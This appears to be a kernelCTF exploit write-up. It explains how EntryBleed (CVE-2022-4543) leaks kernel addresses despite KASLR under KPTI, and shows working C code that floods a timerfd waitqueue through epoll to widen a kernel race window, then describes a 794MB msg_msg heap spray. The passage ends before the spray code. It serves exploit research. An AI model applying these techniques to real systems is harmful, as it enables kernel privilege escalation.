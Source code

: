 
## EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)

We adopt this hardware vulnerability to leak kernel heap address
https://www.willsroot.io/2022/12/entrybleed.html

## Prepare timerfd
We adopt the exploit tech from `Jann's blog Racing against the clock -- hitting a tiny kernel race window` to extend the race windows
To make race windows larger on kernels without CONFIG_PREEMPT.
* make a timerfd expire in that window (which will run in an interrupt handler - in other words, in hardirq context)
* make sure that the wakeup triggered by the timerfd has to churn through many waitqueue items created by epoll

So function `do_epoll_enqueue` in our exploit code is to do such thing
```C
void do_epoll_enqueue(int fd)
{
	int cfd[2];
	socketpair(AF_UNIX, SOCK_STREAM, 0, cfd);
	for (int k = 0; k < 0x4; k++)
	{
		if (fork() == 0)
		{
			for (int i = 0; i < 0x100; i++)
			{
				timefds[i] = SYSCHK(dup(fd));
			}
			for (int i = 0; i < 0xc0; i++)
			{
				epfds[i] = SYSCHK(epoll_create(0x1));
			}
			for (int i = 0; i < 0xc0; i++)
			{
				for (int j = 0; j < 0x100; j++)
				{
					// queue as many as possible async waiters at timerfd waitqueue
					epoll_ctl_add(epfds[i], timefds[j], 0);
				}
			}
			write(cfd[1], buf, 1);
			raise(SIGSTOP); // stop here for nothing and just keep epoll alive
		}
		// sync to make sure it has queue what we need
		read(cfd[0], buf, 1);
	}
	close(cfd[0]);
	close(cfd[1]);
}
```
## Spray large amount msg_msg
To bypass KASLR we using EntryBleed to guess msg_msg address at kernel heap physmap address. To make it more stable
we spray large amount msg_msg in kernel heap to increase probability guessed kernel address is msg_msg object.
There's total 794MB spray data, and this is enough to perform exploitation in kernelCTF instance with 4GB of RAM.
This is following code where we setup and spray kernel heap with msg_msg.
